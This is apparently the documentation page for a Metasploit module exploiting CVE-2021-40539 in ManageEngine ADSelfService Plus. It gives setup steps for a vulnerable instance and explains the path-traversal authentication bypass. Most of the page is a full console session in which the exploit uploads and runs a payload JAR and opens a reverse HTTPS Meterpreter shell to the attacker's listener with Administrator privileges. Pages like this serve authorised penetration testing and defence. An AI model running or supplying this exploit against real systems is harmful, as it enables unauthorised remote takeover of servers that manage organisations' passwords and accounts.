 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] Using configured payload java/meterpreter/reverse_https
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.10
rhosts => 172.16.57.10
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started HTTPS reverse handler on https://172.16.57.1:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: P2dP5Ric88T.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] https://172.16.57.1:8443 handling request from 172.16.57.10; (UUID: tyuzturs) Staging java payload (58615 bytes) ...
[+] Successfully executed payload JAR
[+] Deleted P2dP5Ric88T.jar
[*] Meterpreter session 1 opened (172.16.57.1:8443 -> 127.0.0.1 ) at 2021-11-15 18:08:25 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-9MFFR3JM534
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```
